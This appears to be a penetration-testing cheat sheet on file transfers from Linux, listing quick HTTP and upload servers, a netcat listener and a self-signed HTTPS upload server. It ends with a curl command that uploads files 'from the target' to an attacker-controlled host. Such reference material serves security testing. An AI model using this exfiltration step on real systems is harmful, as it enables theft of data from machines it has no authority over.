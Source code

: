 # File Transfers

## Linux

### Servers

{% tabs %}
{% tab title="HTTP (DL)" %}
```bash
# Python3
python3 -m http.server

# Python 2.7
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000
```
{% endtab %}

{% tab title="HTTP (UL)" %}
{% code overflow="wrap" %}
```bash
# Python3 
python3 -m uploadserver

# Netcat
nc -lvnp 1337
```
{% endcode %}

An HTTPS server can also be created:

{% code overflow="wrap" %}
```bash
# Create self-signed cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Create and move to webroot (must be different dir from the cert)
mkdir https && cd https

# Start web server using the cert
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem

# Upload from the target
curl -X POST https://10.10.10.10/upload -F 'files=@file1' -F 'files=@file1' --insecure 
```
{% endcode %}
{% endtab %}
